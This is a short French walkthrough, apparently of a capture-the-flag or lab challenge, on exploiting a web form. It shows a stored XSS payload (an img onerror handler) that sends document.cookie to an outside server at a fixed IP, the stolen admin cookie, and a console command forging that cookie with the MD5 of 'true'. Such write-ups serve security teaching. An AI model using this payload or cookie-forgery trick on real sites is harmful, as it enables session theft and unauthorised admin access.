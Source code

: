 

En inspectant la page on voit que le serveur check juste que les inputs ne soient pas vide
Il nous suffit alors de modifier la longueur des inputs pour pouvoir y placer des scripts Js/Html/Php.
Le second champ n'execute pas le code par contre le premier champ n'est pas protegé on y ajoute donc notre script

<img src="azerty.jpg" onerror="window.location='http://46.101.40.236:3000/get_cookie_xss.php?cookie='+document.cookie;" hidden>

Resultat : http://46.101.40.236:3000/get_cookie_xss.php?cookie=I_am_admin=68934a3e9455fa72420237eb05902327

On check le type de hashage avec https://md5hashing.net/hash_type_checker/ 
On voit que c'est du md5, et que sa valeur est false;

Ensuite on ouvre la console et on set une nouvelle valeur au cookie :  document.cookie="I_am_admin=b326b5062b2f0e69046810717534cb09"
On refresh la page

